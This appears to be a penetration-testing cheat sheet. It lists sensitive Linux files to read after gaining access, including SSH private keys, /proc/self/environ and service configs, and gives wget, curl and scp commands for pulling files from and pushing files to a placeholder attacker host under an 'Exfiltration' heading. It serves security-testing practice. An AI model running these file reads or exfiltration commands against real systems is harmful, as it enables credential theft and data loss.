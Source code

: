 ```shell
.bash_history

/etc/hosts 
/etc/resolv.conf
/var/lib/apache2/
/etc/apache2/sites-enabled/000-default.conf
/etc/ssh/sshd_config
/etc/init.d/knockd  # to find out the path of conf
/etc/iptables/rules.v4
/etc/freeswitch/autoload_configs/event_socket.conf.xml
/etc/exports
/etc/redis/redis.conf

/var/lib/grafana/grafana.db

/opt 
/mnt

# Different ssh keys name
/home/user/.ssh/id_rsa
id_ecdsa
id_ed25519
id_dsa
id_ecdsa_sk 
id_ed25519_sk


/usr/share/tomcat9/etc/tomcat-users.xml

/proc/cpuinfo
/proc/devices
/proc/meminfo
/proc/net/tcp
/proc/net/udp
/proc/self/cmdline
/proc/self/environ
/proc/self/mounts
/proc/self/stat
/proc/self/status
/proc/version
```

### 📂File Transfer (Download)

[More file transfer techniques](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/file-transfer-techniques)

```shell
wget http://ip:port -O /dir/file
wget ip:port -O /dir/file

curl -O http://<ip>:<port>/<file>

# in case of ssh
scp -O -i priv_key kali_file user@IP:/victimpath # -O for backward compatibility
```
#### (Upload) - Exfiltration
```shell
curl --data @file.txt http://<ip>:8000/mydump.txt
curl --data "username=admin&password=1234" http://<ip>:8000/mydump.txt
wget --method=POST --body-file=<file_path> http://ip:port/outfile
# in case of ssh
scp
```
